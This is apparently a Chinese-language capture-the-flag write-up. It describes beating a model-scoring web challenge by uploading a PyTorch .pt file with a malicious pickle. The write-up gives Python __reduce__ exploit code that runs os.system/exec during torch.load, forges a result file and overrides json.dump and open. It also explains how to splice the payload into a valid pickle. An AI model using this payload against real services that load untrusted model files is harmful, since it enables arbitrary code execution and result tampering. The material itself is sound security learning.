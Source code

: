 > 听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

目标看起来就是让模型生成的图片和预期几乎没有误差。试着多训练几轮，试图过拟合，记录一下 loss，发现降到 0.001+ 的时候就降不下去了，而需要的是 0.0005
![](/assets/images/writeups/hackergame2022/loss.png)

看起来不可行。而且这是一道 web 类题，考虑用一些手段来让它认为我的输出是完全正确的。

搜索可以发现存的 .pt 文件中有使用 pickle 序列化存储的 .pkl 文件。而在读取的时候也会进行反序列化，这也就存在一个 pickle 反序列化的漏洞。

我们可以自己写一个恶意类然后打包到 data.pkl 压缩进 .pt 文件，在反序列化的时候就会执行其中的代码，比如：
```python
class Exploit(object):
    def __reduce__(self):
        return (os.system, ("...", ))
```
这个在本地测试的时候运行 infer.py 可以打通，但远程就不可以。所以可以猜测远程实际上从其它模块中调用了 infer 函数，如果没有正常返回，则会报错。

那么我们的思路就是让整个程序都可以正常运行，只是在反序列化的时候进行一些操作。根据源码可以知道最终会将模型输出的结果存放在 /tmp/result.json 中，然后在其它位置再读取这个文件，进行判断。而如果没有这个文件则会直接报错。

所以可以在 reduce 中将完全正确的结果先写入 /tmp/result.json 中。但如果这时直接 exit，则后面程序无法执行，会出现报错。所以还需要让后面完全正常运行。整个 infer 函数的逻辑大概如下：
```python
def infer(pt_file):
    # ...
    model = SimpleGenerativeModel(n_tags=n_tags, dim=dim, img_shape=img_shape)
    model.load_state_dict(torch.load(pt_file, map_location="cpu"))
    
    # ... predict

    json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
```
我们输入的 pt 文件会在 torch.load 中进行反序列化，这时会写入 /tmp/result.json。而后面对于我们写入的威胁就是还会 json.dump 一次。所以首先需要将 json.dump 这个函数的作用抹除掉：`__import__('json').dump=lambda x, y: 0`。但这还不够，因为参数中的 open 也会执行，以 w 方式打开文件的话会先直接清空文件，所以也需要抹掉 open 的作用。不过后面肯定还会需要使用 open 来读取文件，所以只能抹掉写入的部分：`__builtins__['_open'] = open; __builtins__['open']=lambda x, y: 0 if y=='w' else __builtins__['_open'](x, y)`。

这样来讲我们的 exp 就是：
```python
class Exploit(object):
    def __reduce__(self):
        text = '{"gen_imgs_b64": ["......'
        return (exec, (f"open('/tmp/result.json', 'w').write('{text}');"
            "__import__('json').dump=lambda x, y: 0;"
            "__builtins__['_open']=open;"
            "__builtins__['open']=lambda x, y: 0 if y=='w' else __builtins__['_open'](x, y)", ))
```

但仅将这个打包后得到的 data.pkl 直接压缩进 pt 文件还是不行。因为模型就没法正常读取了，所以还需要对其进行一些修改。

pkl 文件实际存储的是一个构造好的虚拟机指令，pickle 反序列化时会执行它。看源码可以了解到有一个指令 0x2E 表示了结束返回。所以直接将生成的 data.pkl 末尾的 0x2E 去掉，然后直接接上一份正确的 data.pkl 内容即可完成构造。

构造好后上传 pt 文件，即可达到目标得到 flag：**flag{Torch.Load.Is.Dangerous-……}**

-----

